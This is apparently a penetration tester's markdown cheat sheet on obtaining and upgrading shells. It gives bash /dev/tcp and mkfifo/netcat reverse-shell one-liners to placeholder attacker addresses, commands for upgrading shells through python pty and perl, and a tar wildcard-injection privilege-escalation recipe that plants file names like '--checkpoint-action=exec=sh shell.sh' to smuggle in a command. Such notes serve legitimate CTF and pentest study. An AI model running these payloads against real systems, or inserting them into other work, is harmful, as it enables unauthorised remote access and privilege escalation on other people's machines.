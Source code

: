 # Resources
- [Hacktricks Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
- [RevShells](https://www.revshells.com/)
- [Payloads All The Things - Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Socat](https://linux.die.net/man/1/socat)
- [Netcat](../../Tools/Netcat.md)

---
# Shellnanigans

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM-xterm`
	- `export SHELL=bash`
- connect bash to netcat over sockets
	- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
